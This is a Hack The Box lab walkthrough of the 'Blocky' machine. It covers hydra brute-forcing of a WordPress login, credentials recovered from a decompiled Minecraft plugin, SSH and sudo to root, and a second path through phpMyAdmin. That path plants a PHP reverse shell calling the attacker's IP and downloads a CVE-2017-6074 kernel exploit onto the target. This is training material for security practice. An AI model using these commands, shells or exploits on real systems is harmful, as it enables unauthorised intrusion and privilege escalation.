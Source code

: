 # Blocky

```
kali@kali:~/htb/Blocky$ sudo nmap -Pn  10.129.1.53
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 08:03 EST
Nmap scan report for 10.129.1.53
Host is up (0.028s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos
```

My default -sV and -sC do not work so I do a quick -Pn to see what we're dealing with. If needed I would return to do some more scanning.

I head to the webpage and I’m greeted by blockycraft! And there is a login page. Which differentiates username and password. So I’m gonna try hydra,


```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR\: Invalid username. Lost your password?" -L /usr/share/wordlists/usernames.txt -p test -I
```

Hydra can be a bit tough to send correctly, I hope this one is good.

While that is running I check out the other options on the site. I click the first article and see a reply field. This might be a cross-site-scripting opportunity.

So let's try a simple XSS to see if it even works:

<script>alert(‘XSS’)</script>. This should create a popup message if it works. But it does not. The comment is simply posted with the <script>’s removed. I tried it on all fields as well, but to no avail. My hydra command has also slowed down a lot. Hmm. 

I decide to run dirbuster. But I don’t really find anything special.

I then remember that there are blog posts, and they probably include usernames… duh.

So we get a username “Notch”

I try hydra again: 

```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR\: The password you entered for the username Notch is incorrect. Lost your password?" -l Notch -P /usr/share/wordlists/rockyou.txt -I -V
```

In order to craft a good hydra command, you need to inspect the target login form, and use the values there. "log" was the form name of the username, "pwd" for the password etc.
I also had to escape the `:` in the fail message with a backslash. -l means username. -L means username list. And the same for passwords. -I makes it so hydra does not resume from a previous run, and -V just means verbose.

Also my dirbuster is not working well, it is just running into empty links. So I’m gonna try Wfuzz and only looking for directories.

``` 
kali@kali:~/htb/Blocky$ sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.1.53/FUZZ
```

-c outputs with colors

--hc=404 filters out 404 response pages

-w selects what wordlist to use


And Wfuzz finds a directory called plugins. So let's see if we find anything there. Note that my hydra is still running in the BG trying to find a password.

![](images/1.png)

We got something interesting here. Some java files, which is what is used for minecraft mods. Let’s see if we can find some interesting stuff. 

I decompress it with
```kali@kali:~/htb/Blocky$ unzip BlockyCore.jar -d Blockycore
Archive:  BlockyCore.jar
  inflating: Blockycore/META-INF/MANIFEST.MF  
  inflating: Blockycore/com/myfirstplugin/BlockyCore.class  
```
-d specifies a directory to unzip files

So now we can try to decompile it:

```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ javap -c  BlockyCore.class
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Compiled from "BlockyCore.java"
public class com.myfirstplugin.BlockyCore {
  public java.lang.String sqlHost;

  public java.lang.String sqlUser;

  public java.lang.String sqlPass;

  public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
      22: return

  public void onServerStart();
    Code:
       0: return

  public void onServerStop();
    Code:
       0: return

  public void onPlayerJoin();
    Code:
       0: aload_0
       1: ldc           #33                 // String TODO get username
       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
       8: return

  public void sendMessage(java.lang.String, java.lang.String);
    Code:
       0: return
}

```

That third string is interesting. `8YsqfCTnvxAUeduzjNSXe22`

I try it with Notch in the login page, but it does not work. However ssh was open in the ports. So lets try that:


```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh Notch@10.129.1.53
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 

kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh notch@10.129.1.53
notch@10.129.1.53's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
/usr/bin/xauth:  file /home/notch/.Xauthority does not exist
notch@Blocky:~$ whoami
notch
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Here we can see the importance of always trying both lower and uppercase. And we can see that notch is already a sudo user. So let's try to log in as root:

```
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 
```

Great!

Although I am sad that hydra did not work.


## Comparing myself to the official writeup:

The official writeup an nmap with -T4 -A  and it revealed that minecraft was also running on port 25565. 

They ran into the same dirbusting issues I found. With php busting not working well on wordpress sites. They switched to directories only. As I did, although I used wfuzz and they kept using dirbuster.

They decompile the java files with JD-GUI. And found the credentials. And logged on with ssh. Used `sudo -i` to get root.

However they also pointed out a PhPAdmin route after finding the credentials in the java files.

So I decide to try that out at the end of this writeup.

## How to stop this exploit:

Very bad idea to keep plaintext credentials. And an even worse idea to keep it publicly available like this. And an even worse idea than that, to reuse that password as the root password of the machine. This is a cool example of an entirely user based mistake. As the user gave away the password. You could say that ssh could be turned off. But the biggest mistake here is clearly the plaintext public password reuse.


# Secondary foothold:

I navigate to 10.129.1.53/phpmyadmin

And log in with root:8YsqfCTnvxAUeduzjNSXe22 As found in the java files.

And go to the wordpress database:

![](images/2.png)

And click edit:

![](images/3.png)

We just set the user_pass to MD5 and enter our password:

![](images/4.png)

I press Go and login with Notch:DontReusePasswords on 10.129.1.53/wp-login. And I’m greeted with the admin panel:

![](images/5.png)

Now I’m mostly looking for somewhere to upload a php file as a reverse shell.

I go to Appearance->Editor in the wp-admin panel and add

```
<?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'");
?>
```

To the top of the header.php template. Set up a listener and enter the page in browser:

```
kali@kali:~$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.53 41360
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Blocky:/var/www/html$ whoami
whoami
www-data
www-data@Blocky:/var/www/html$ 
```

I downloaded and compiled this: https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-6074/poc.c 

Compiled with: `kali@kali:~/htb/Blocky$ gcc -o poc poc.c`

I set up a webserver to download it:

```
kali@kali:~/htb/Blocky$ sudo python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...

```

And download it on the target:

```
www-data@Blocky:/var/www/html$ wget 10.10.14.21:8000/poc
wget 10.10.14.21:8000/poc
--2021-01-25 12:03:46--  http://10.10.14.21:8000/poc
Connecting to 10.10.14.21:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23768 (23K) [application/octet-stream]
Saving to: 'poc'

     0K .......... .......... ...                             100%  797K=0.03s

2021-01-25 12:03:46 (797 KB/s) - 'poc' saved [23768/23768]

www-data@Blocky:/var/www/html$ 
```

I followed this up with chmod 777 to get execute permissions, and ran it:

```
www-data@Blocky:/var/www/html$ chmod 777 poc
chmod 777 poc
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
```

And I did get root, but I think the machine crashed… As nothing responded. And I tried pinging, unreachable… So I tried resetting the box and having another go.

```
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1698): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
whoami
root
```

There we go! Awesome. Two cool ways of doing this box. Some good experience with phpmyadmin and Wordpress, and a new root exploit.

The dccp_rcv_state_process function in net/dccp/input.c mishandles DCCP_PKT_REQUEST packet data structures in the LISTEN state. This allows local users to obtain root privileges by using an application that makes an IPV6_RECVPKTINFO setsockopt system call.

This can be fixed by updating to the latest linux release.
